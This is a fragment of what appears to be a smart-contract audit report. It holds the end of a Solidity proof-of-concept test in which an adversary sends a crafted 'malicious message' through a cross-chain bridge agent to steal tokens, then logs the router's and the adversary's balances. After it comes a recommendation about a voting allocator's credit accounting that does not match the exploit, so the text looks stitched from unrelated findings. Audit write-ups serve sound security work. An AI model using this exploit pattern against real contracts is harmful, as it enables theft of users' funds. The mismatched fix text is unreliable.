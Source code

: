 ```solidity

        bytes memory finalizedData = abi.encodePacked(bytes1(0x02), stealData);

        // Send malicious message
        hevm.startPrank(adversary);

        avaxMulticallBridgeAgent.callOut{value: 1 ether}(
            payable(adversary), finalizedData, gasParams
        );

        // Inspect router & adversary avax balance
        console2.log("Root router balance after", ERC20hTokenRoot(newAvaxAssetGlobalAddress).balanceOf(address(rootMulticallRouter)));
        console2.log("Adversary mock avax token balance after", avaxMockAssetToken.balanceOf(adversary));
    }
```
#### Recommendation
Rework the accounting to such `_allocator.voiceCreditsCastToRecipient[_recipientId] = totalCredits;`


